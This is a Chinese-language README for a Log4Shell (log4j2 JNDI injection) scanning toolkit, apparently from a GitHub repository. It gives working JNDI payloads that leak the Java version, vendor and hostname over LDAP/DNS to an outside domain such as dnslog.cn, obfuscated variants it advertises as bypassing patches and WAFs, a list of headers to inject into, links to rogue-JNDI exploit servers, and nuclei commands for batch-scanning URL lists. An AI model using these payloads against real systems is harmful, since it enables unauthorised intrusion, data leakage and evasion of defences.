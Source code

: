 
# 更新

## structs2版本
添加了structs2静态文件 If-Modified-Since 头利用方式。
参考：https://mp.weixin.qq.com/s/T-rcZnQxxUK1n2_lJNoUZg


## structs2 利用变种
添加了structs2利用方式变种。
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


## vCenter 利用
添加了vCenter利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


## solr 利用
添加了Apache solr利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


# 关于影响面
有一个新的站点发布了比此前相对更全内容.(包括各类设备与云设施等)
- [Finding applications that use Log4J](https://www.rumble.run/blog/finding-log4j/?fbclid=IwAR0XbJNZ7FjsgVFIk5rlmf002twAaW14SJfdBHFYswWbOzDxzj4YIFnJZPU#affected-products-and-services)

# 关于其他扫描器
有一个新的扫描器挺火的，暂时没有时间验证
- [log4j-scan](https://github.com/fullhunt/log4j-scan)

portswigger 放出了官方的 burpsuite 被动扫描插件，官方的应该挺好用
- Log4Shell Scanner 可以在 plugin store 直接下载

# 关于 log4j2 发现漏洞后的进一步利用

## 探测 jdk 版本等
```
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
```
![image-20211214113047711](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20211214113047711.png)

## 一次性探测完
```
${jndi:ldap://${sys:java.vendor}.@.${sys:java.version}.@.${hostName}.test.dnslog.cn/exp}
```

## 直接使用tomcat等可绕过高版本jdk限制的反序列化链
可以使用 
 - [veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
 - [welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
 - [JNDIExploit](https://github.com/GreyDr34d/JNDIExploit)


# 关于类似漏洞的挖掘 
## 挖掘其他可能存在 JndiLookup.class 的 jar 包
powershell 命令：
```powershell
gci 'C:\' -rec -force -include *.jar -ea 0 | foreach {select-string "JndiLookup.class" $_} | select -exp Path
```

# log4j-fuzz-head-poc轻量级检测
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

为什么用这种，这种方法也是从蜜罐中获取到攻击组织最常用的方法，简单，有效

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version
* If-Modified-Since(structs2)

